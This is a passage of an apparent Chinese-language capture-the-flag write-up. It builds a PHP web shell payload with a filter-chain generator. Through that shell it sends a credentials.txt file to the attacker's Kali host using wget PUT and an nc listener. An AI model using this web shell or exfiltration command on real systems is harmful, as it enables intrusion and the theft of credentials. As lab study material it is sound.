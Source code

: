 ```
[root@kali] /home/kali/swiss/php_filter_chain_generator (main) 
❯ python php_filter_chain_generator.py --chain '<?php system($_POST["cmd"]);?>'
```

![](./images/image-180.png)

在该目录下发现了一个很大的**txt**文件

![](./images/image-181.png)

由于太大无法查看，这里我把文件传到了**kali**

```
cmd=wget --method=PUT --body-file=credentials.txt http://172.17.0.1:1000
```

**kali**

```
❯ nc -lvnp 1000 > get.txt
```

使用**strings**读取然后**grep**过滤查找（因为有一部分二进制码，使用**cat**过滤给**grep**会报错

![](./images/image-182.png)
